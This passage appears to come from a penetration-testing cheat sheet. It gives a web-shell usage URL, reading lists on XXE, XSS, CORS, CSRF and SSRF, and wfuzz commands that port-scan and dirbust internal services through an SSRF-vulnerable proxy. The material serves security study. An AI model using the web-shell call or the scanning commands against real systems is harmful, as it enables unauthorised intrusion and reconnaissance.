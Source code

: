 Usage:

http://victim/directory/shell.php?cmd=whoami

> ###### Resources



##### XXE

> ###### Resources

[Exploitation: XML External Entity \(XXE\) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)

[Exploiting a Real-World  XXE Vulnerability](https://www.youtube.com/watch?v=EZxGa6dqero)

[Exploiting XXE Vulnerabilities in file parsing](https://www.youtube.com/watch?v=LZUlw8hHp44)

##### XSS

> ###### Resources

[XSS Attack: Busting browsers to root](https://vimeo.com/26751019)

[DOM Clobbering](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)

[DOM Flow - Untangling the DOM](https://www.youtube.com/watch?v=kedmtrIEW1k)

##### CORS

> **Resources**

[Exploiting Misconfigured CORS](http://c0d3g33k.blogspot.in/2017/10/exploiting-misconfigured-cors.html?m=1)

##### CSRF

> ###### Resources

[Computerphile: Cross Site Request Forgery](https://www.youtube.com/watch?v=vRBihr41JTo)

[Updating Anti-CSRF Tokens with BurpSuite](https://warroom.securestate.com/updating-anti-csrf-tokens-burp-suite/)

##### SSRF

> ###### Resources

[What is Server side Request Forgery?](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/)

[A New Era of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

[Exploiting Server Side Request Forgery on a Node/Express Application \(hosted on Amazon EC2\)](https://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

> ###### Example

Sometimes what appears to be RFI can lead to SSRF, here are some commands to help

```
# Port scan the internal resources available
Kali> wfuzz -c -z range,1-65535 --filter "l>2" http://$TARGET/proxy.php?path=localhost:FUZZ

# If you find one, dirbust it.
Kali> wfuzz -c -w /usr/share/wordlists/dirb/big.txt --filter "l>11" http://$TARGET:8080/FUZZ
```
